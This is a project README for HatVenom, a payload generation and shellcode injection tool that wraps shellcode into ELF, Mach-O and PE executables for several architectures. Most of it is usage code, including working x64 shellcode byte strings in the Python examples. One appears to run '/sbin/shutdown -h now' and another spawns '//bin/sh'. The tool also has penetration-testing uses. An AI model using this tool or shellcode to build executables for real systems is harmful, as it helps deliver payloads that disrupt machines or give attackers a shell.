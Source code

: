 # HatVenom

Powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## How it works

* **1.** First we are preparing provided shellcode for injection, we are setting offsets and formatting opcodes.
* **2.** Next we are generating executable, we taking default format header and magic to create simple template.

**NOTICE:** *For `Mach-O` we are using already prepared templates in the `templates/` folder*)

* **3.** Then we are injecting prepared shellcode to generated template.

## CLI examples

```bash
python3 hatvenom.py --format elf --arch x64 --shellcode '\x00'

# With replacing offsets

python3 hatvenom.py --format elf --arch x64 --shellcode '\x00:string:\x00' --offsets string=alena
```

## Python example

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Replacing offsets

HatVenom allows you to replace offsets in your shellcode, that means that you can create executable files with injected value.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'string':'//bin/sh'})
```

Offsets must be this type `:offset:` or if you want to specify offset type - `:offset:ipv4:`.
